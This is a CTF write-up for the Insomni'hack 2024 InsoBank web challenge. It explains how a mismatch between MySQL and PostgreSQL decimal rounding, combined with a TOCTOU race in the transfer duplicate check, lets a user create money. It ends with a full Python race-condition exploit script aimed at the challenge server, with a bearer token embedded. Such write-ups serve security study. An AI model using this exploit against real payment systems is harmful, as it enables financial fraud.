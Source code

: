 ```yaml
---
title: Insomni'hack CTF Teaser 2024 - InsoBank Writeup
description: Exploit MySQL decimal rounding off and TOCTOU race condition in a Internet Banking website. 
date: 2024-01-21 19:15:00 +0530
categories: [CTF Writeup, Insomni'hack CTF Teaser 2024]
tags: [web, race-condition]
---
```


## Challenge
![Challenge description - Vaulty](../images/insobank/challenge.png){:style="display:block; margin-left:auto; margin-right:auto"}  
We're launching a new online Bank today which is of course backed by crypto and AI which makes it better than any other banking system out there.

It's not fully featured yet as you can only transfer money within your own accounts, but you can already see how superior it is to other systems:

http://91.92.201.197:3000/

Source: [here](https://static.insomnihack.ch/media/insobank-8ebe9b5ceef733e4eaa6d32f2707381a111b16aee63980b4583ab1e44d964d8d_BLFUOJ6.tgz)

## TL;DR
- We are given an internet banking website with option to only transfer funds within own accounts. The goal is to increase balance from 10 CHF to 13.37 CHF.
- Two databases (MySQL and Postgresql) are used to store transactions. MySQL schema rounds-off amount to 2 decimal places, but postgresql does not.
- We can create transactions such that the sum of amount exceeds source account balance by exploiting the rounding off.
- For this to work, we need transactions with dupclicate recipients. We exploit a TOCTOU race condition to bypass duplicate check.

## Finding the vulnerabilities

### 1. Recon 
We are provided an internet banking website with option to only transfer funds within own accounts. There exists 3 accounts namely Checkings, Savings and Current. Initially we have 10.0 CHF (Swiss Franc) in checkings account. We can create transaction to send funds between these 3 accounts. However, to obtain flag, we need to have a balance of 13.37 CHF in single account. In other words, we need to create free money.

### 2. Decimal round-off 
The challenge uses MySQL to store all user details and transactions. But, pending transactions alone are duplicated into a seperate Postgresql database. From looking at the schema of these two, we can find that the column type of amount is different.  
- MySQL has **DECIMAL(10, 2)** 
- Postgresql has **DECIMAL**  

This means we can exploit the fact that MySQL rounds-off amount to 2 decimal places, whereas postgresql stores exact amount. Transaction validation is performed on MySQL when trasaction is finalized using `/validate` endpoint. However, actual execution happens using Postgresql amount in a periodic script. Also note that one transaction batch can contain multiple transactions.  
  
We can create a transaction batch like below (balance in Checking account : 10 CHF),  
<table>
<thead>
  <tr>
    <th>Source</th>
    <th>Recipient</th>
    <th>Amount</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td>Checkings</td>
    <td>Current</td>
    <td>10</td>
  </tr>
  <tr>
    <td>Checkings</td>
    <td>Savings</td>
    <td>0.004</td>
  </tr>
  <tr>
    <td>Checkings</td>
    <td>Savings</td>
    <td>0.004</td>
  </tr>
</tbody>
</table>

- Validation on MySQL (rounded off to 2 decimal):  
    - 10.00 + 0.00 + 0.00 = 10 (Sufficient funds in source account)  
- Execution using Postgresql: 
    - 10.00 + 0.004 + 0.004 = 10.008  
- When 10.008 is stored in MySQL, it becomes 10.01 CHF  

Now we repeat this until we have 13.37 CHF. However there is a catch. We cannot create above transaction as `/transfer` endpoints checks that two transactions in same batch cannot have same destination account. In our example, we have two entries with savings account as recipient.  
![/transfer check](../images/insobank/transfer-check.png)

### 3. TOCTOU race condition
The Flask app is running in a multi-threaded WSGI server. There is a race condition TOCTOU vulnerability in `/transfer` endpoint. The check is implemented as below,
```none
1. 'Select count(*)' query to fetch if same recipient already added in this batch  
2. if exists, return error "You can have only one transfer per recipent in a batch"  
3. Add transaction to batch
```
This logic is not thread safe and vulnerable to Time of check, time of use (TOCTOU) attack. We can create multiple duplicate requests to server. As all are executed in parallel, We hope multiple requests will cross the select query (step 1) at same time, before any transaction is added to batch. This way, we can bypass this check and add duplicate recipients.

## Exploit 

In order to create parallel request to trigger race condition, Burp suite needed professional license. I used [this tool](https://github.com/nccgroup/requests-racer) instead.

```python
from requests_racer import SynchronizedSession

s = SynchronizedSession()

# Update JWT after creating a fresh login session
burp0_headers = {"Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcwNTgyNjg5NSwianRpIjoiY2UzYTBlMjktNjE4OS00ZTE0LTgzM2YtNDdjNzE4ZjFkY2M5IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6NDg2OSwibmJmIjoxNzA1ODI2ODk1LCJjc3JmIjoiMjYzNDk0YmEtODgyZS00ODMzLWJmZDMtOTdhNzZiYjMzNzRkIiwiZXhwIjoxNzA1ODI3Nzk1fQ.biCkHQ-6U3aDWGJ1A1h-4GWK9wz6exEOLFzQ8aym1_g", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36", "Accept": "*/*", "Origin": "http://91.92.201.197:3000", "Referer": "http://91.92.201.197:3000/", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}

for n in range(20):

    burp0_url = "http://91.92.201.197:5000/batches"
    resp1 = s.get(burp0_url, headers=burp0_headers)
    s.finish_all()
    old_batches = [o['batchid'] for o in resp1.json()]

    burp0_url = "http://91.92.201.197:5000/batch/new"
    burp0_json={"senderid": "dc9d1d35-ef4d-4406-957c-93acc318d435"}
    resp = s.post(burp0_url, headers=burp0_headers, json=burp0_json)
    s.finish_all()

    burp0_url = "http://91.92.201.197:5000/batches"
    resp1 = s.get(burp0_url, headers=burp0_headers)
    s.finish_all()
    new_batchid = [o['batchid'] for o in resp1.json() if o['batchid'] not in old_batches][0]

    print(f"New batch: {new_batchid}")

    s = SynchronizedSession(num_threads=20)

    burp0_url = "http://91.92.201.197:5000/transfer"
    burp0_json={"amount": "0.004", "batchid": new_batchid, "recipient": "4f55f4f1-9fb5-48a7-af32-d910b46ca8ca"}
    resps = []
    for i in range(20):
        resps.append(s.post(burp0_url, headers=burp0_headers, json=burp0_json))
    s.finish_all()
    print([resp.text for resp in resps])

    burp0_url = "http://91.92.201.197:5000/validate"
    burp0_json={"batchid": new_batchid}
    s.post(burp0_url, headers=burp0_headers, json=burp0_json)
    s.finish_all()
```
